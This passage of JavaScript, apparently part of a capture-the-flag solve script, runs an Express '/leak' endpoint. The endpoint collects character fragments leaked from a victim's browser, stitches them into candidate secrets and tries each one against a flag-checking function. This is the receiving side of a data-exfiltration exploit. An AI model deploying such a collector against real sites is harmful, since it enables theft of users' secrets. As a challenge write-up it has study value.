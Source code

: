 ``` js

        if (suffix === prefix) {
          isFound = true
          continue
        }
      }
      if (!isFound) {
        console.log('ending:', arr[i])
        return mergeWords(filterFirst(arr, arr[i]), arr[i])
      }
    }

    console.log('Error, please try again')
    return
  }

  let found = []
  for(let i=0; i<arr.length; i++) {
    let length = ending.length
    let suffix = ending[0] + ending[1]
    let prefix = arr[i][1] + arr[i][2]

    if (suffix === prefix) {
      found.push([filterFirst(arr, arr[i]), arr[i][0] + ending])
    }
  }

  return found.map((item) => {
    return mergeWords(item[0], item[1])
  })
}

function handleLeak() {
  let str = ''
  let arr = [...leaks]
  leaks = []

  console.log('received:', JSON.stringify(arr))
  const merged = mergeWords(arr, null);
  console.log('leaked:', merged.flat(9999))
  return merged.flat(9999)
}

app.get('/leak', async (req, res) => {
  leaks.push(req.query.q)
  
  console.log('recevied:', req.query.q, leaks.length)
  //console.log(leaks)
  if (leaks.length === 105) {
    const result = handleLeak()
    
    let s = Array.from(new Set(result))
    s = s.filter(item => {
      if (item.indexOf('000') !== 40) {
        return false
      }
      return true
    })
    console.log('secret:', s)
    let i = 0
    for(let f of s) {
      console.log('try:', f, ++i)
      await getFlag(f.replace('000', '00000000'))
```